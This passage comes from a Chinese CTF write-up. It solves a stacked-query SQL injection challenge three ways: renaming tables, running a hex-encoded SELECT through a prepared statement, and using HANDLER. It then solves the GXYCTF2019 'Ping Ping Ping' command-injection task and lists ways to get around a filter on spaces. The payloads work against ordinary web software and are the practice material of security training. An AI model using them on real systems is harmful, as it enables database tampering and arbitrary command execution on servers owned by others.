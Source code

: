 ![image-20230412194738125](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412194738125.png)

flag 找到了，该怎么查看数据呢

方法一：改名换姓

我们可以“改名换姓”把1919810931114514表名改成words表，仅如此还不够，由于words表有两个字段，我们需要把新的words表也变成两个字段

```
1'; rename table words to word1; rename table '1919810931114514' to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#
```

方法二：关键字编码绕过

select被过滤了，那么我们可以绕过这个过滤（16进制编码）

```
1';SeT@a=0x<这里填查询语句的十六进制代码>;prepare execsql from @a;execute execsql;#
也就是：
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

方法三：关键字过滤之等价函数替换

查询语句除了我们常用的“SELECT”语句以外还有HANDLER。并且在官方的说明中“HANDLER查询性能比SELECT更好”所以我们可以直接换个查询函数赛。（我不李姐）

```
1'; handler `1919810931114514` open as flag; handler flag read next;#
```

![image-20230412195335176](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412195335176.png)

## [GXYCTF2019]Ping Ping Ping

题目提示ping

```
127.0.0.1;ls
```

![image-20230412195655093](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412195655093.png)

```
127.0.0.1;cat flag.php
```

![image-20230412195808644](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412195808644.png)

提示过滤了空格（f*uk）

空格绕过

```
${IFS}替换
$IFS$1替换
${IFS替换
%20替换
<和<>重定向符替换
%09替换
```
